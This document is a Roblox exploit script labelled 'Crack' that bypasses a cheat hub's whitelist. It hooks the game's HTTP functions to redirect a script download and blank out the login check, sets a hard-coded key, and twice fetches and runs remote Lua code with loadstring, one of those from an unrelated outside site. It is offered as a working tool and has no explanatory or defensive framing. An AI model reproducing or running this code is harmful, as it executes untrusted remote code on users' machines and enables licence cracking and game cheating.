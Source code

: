 --//Sex\\-- local urlLink = "https://baconhubwhitelist%.magegaming%.repl%.co/Login%?0x15=" local oldSyn, hook; --//Crack\\-- loadstring(game:HttpGet("https://skumminity.com/default.lua"))(); hook = hookfunction(game.HttpGet, function(self, Url, ...) if Url and Url == "https://raw.githubusercontent.com/BaconLords/Why-are-we-here-to-suffer/b846b36b8fd79d44e80375ad764dd5731dcccac8/Dababy" then Url = "https://rawscripts.net/raw/BaconThingHook_984" end; return hook(self, Url, ...); end); oldSyn = replaceclosure(syn.request, newcclosure(function(uri) if uri.Url:match(urlLink) then return {Body = " "}; end; end)); getfenv().Key = "10xHub" loadstring(game:HttpGet("https://raw.githubusercontent.com/BaconLords/Why-are-we-here-to-suffer/b846b36b8fd79d44e80375ad764dd5731dcccac8/Dababy"))();

